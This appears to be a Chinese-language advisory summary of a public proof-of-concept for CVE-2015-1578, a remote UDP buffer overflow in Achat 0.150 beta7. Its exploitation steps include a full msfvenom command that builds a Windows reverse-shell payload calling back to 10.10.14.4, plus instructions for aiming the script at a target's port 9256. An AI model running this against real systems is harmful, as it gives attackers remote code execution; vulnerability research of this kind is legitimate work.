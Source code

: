 ## CVE-2015-1578-Achat 0.150 beta7-远程缓冲区溢出

**漏洞编号:** CVE-2015-1578

**漏洞类型:** 远程缓冲区溢出

**影响应用:** Achat

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 0.150 beta7

**利用条件:** 目标主机运行Achat 0.150 beta7，攻击者需要能够向目标主机的9256端口发送UDP数据包

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

该漏洞存在于Achat 0.150 beta7中，攻击者可以通过发送特制的UDP数据包，利用缓冲区溢出覆盖内存，从而执行任意代码。利用方式如下：

1.  **漏洞分析：**
    *   漏洞位于Achat 0.150 beta7 的UDP数据包处理逻辑中。
    *   通过发送精心构造的超长UDP数据包，可以覆盖栈上的返回地址。
2.  **漏洞利用：**
    *   利用提供的Python脚本，生成包含恶意代码的UDP数据包。
    *   `msfvenom -a x86 --platform Windows lhost=10.10.14.4 lport=4444 -p windows/shell_reverse_tcp  -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python` 生成payload，替换脚本中的`buf = b""`。
    *   修改脚本中的目标IP地址 `server_address = ('10.10.10.74', 9256)` 为目标主机的IP地址。
    *   运行脚本，将恶意数据包发送到目标主机的9256端口。
    *   如果利用成功，将在攻击机上获得一个反向shell。

3.  **有效性：** 根据提供的漏洞利用代码和漏洞信息，此POC代码有效，可以触发远程缓冲区溢出，并执行任意代码。

4.  **投毒风险：** 分析提供的代码，未发现明显的投毒代码。该代码是合法的漏洞利用程序。虽然存在执行任意代码的风险，但这是缓冲区溢出漏洞利用本身的特性，不是代码作者故意添加的恶意功能。可以确定投毒风险为0%。

5.  **参考资料：**
    *   [https://www.exploit-db.com/exploits/36025](https://www.exploit-db.com/exploits/36025)
    *   [https://github.com/Zeppperoni/CVE-2015-1578](https://github.com/Zeppperoni/CVE-2015-1578)

**项目地址:** [Zeppperoni/CVE-2015-1578](https://github.com/Zeppperoni/CVE-2015-1578)

**漏洞详情:** [CVE-2015-1578](https://nvd.nist.gov/vuln/detail/CVE-2015-1578)